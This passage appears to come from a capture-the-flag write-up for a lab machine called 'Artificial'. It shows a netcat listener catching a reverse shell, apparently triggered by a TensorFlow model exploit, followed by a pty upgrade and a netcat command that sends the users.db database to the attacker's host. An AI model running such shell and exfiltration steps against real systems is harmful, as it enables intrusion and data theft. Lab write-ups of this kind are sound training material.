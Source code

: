 then run our listener process 
```sh
$ nc -lnvp 4444
```
we click on **`View predection`** button:
![tensorflow exploit](/images/Artificial/tensorflowexploit.png)

we get a revser shell :
```sh
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.242] from (UNKNOWN) [10.10.11.74] 59066
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty; pty.spawn('/bin/bash')"
app@artificial:~/app$ 
```
we start looking for data, we found a `users.db` :
```sh
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.242] from (UNKNOWN) [10.10.11.74] 60240
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty; pty.spawn('/bin/bash')"
app@artificial:~/app$ ls
ls
app.py  instance  models  __pycache__  static  templates
app@artificial:~/app$ cd instance
cd instance
app@artificial:~/app/instance$ ls
ls
users.db
```
we transfert it to our local machine:
```sh
app@artificial:~/app/instance$ nc 10.10.14.xx 5555 < users.db
```
```sh
$ nc -lnvp 5555 > users.db
```